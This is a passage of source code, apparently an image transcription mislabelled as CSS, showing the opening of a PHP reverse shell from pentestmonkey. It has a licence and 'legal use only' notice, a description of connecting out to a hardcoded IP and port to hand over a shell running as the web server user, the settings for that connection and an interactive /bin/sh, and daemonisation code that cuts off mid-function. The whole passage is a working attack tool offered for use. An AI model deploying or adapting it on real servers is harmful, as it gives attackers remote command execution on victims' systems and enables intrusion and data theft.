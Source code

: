 ```css
//
// You should have received a copy of the GNU General Public License along
// with this program; if not, write to the Free Software Foundation, Inc.,
// 51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  If these terms are not acceptable to
// you, then do not use this tool.
//
// You are encouraged to send comments, improvements or suggestions to
// me at pentestmonkey@pentestmonkey.net
//
// Description
// -----------
// This script will make an outbound TCP connection to a hardcoded IP and port.
// The recipient will be given a shell running as the current user (apache normally).
//
// Limitations
// -----------
// proc_open and stream_set_blocking require PHP version 4.3+, or 5+
// Use of stream_select() on file descriptors returned by proc_open() will fail and return FALSE under Windows.
// Some compile-time options are needed for daemonisation (like pcntl, posix).  These are rarely available.
//
// Usage
// -----
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.

set_time_limit (0);
$VERSION = "1.0";
$ip = '127.0.0.1';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}

	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
```